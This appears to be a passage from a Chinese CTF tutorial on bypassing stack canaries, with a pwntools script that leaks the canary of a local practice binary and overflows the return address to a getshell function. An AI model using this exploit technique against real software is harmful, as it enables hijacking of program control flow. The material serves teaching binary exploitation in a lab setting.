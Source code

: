 ![](/BypassCanary.assets/ex2_1.png) 
用 n 让程序执行到输入字符，查看栈空间。可以看到输入的字符到 Canary 相差了 `0x7c-0x18=0x64` 个字节

![](/BypassCanary.assetsex2_2.png) 

知道了距离就可以覆盖掉 Canary 的最低位，用回车（0xa）将0x00 覆盖掉，剩下的高字节信息就会泄露，然后将泄露出来的 Canary 填回去，再通过栈溢出把返回地址覆盖成getshell函数的地址
```python
from pwn import *

p=process("./ex2")
elf=ELF("./ex2")
getshell=elf.sym['getshell']

payload='a'*0x63+ 'b'
p.sendline(payload)
p.recvuntil('ab')

canary=u32(p.recv(4)) - 0xa
print ("canary: ",canary)

payload = 'a'*0x64 + p32(canary) + 'a'*8  + 'a'*4  +p32(getshell)
# padding1 + canary + padding2 + old_ebp + ret_addr
p.send(payload)

p.interactive()
```
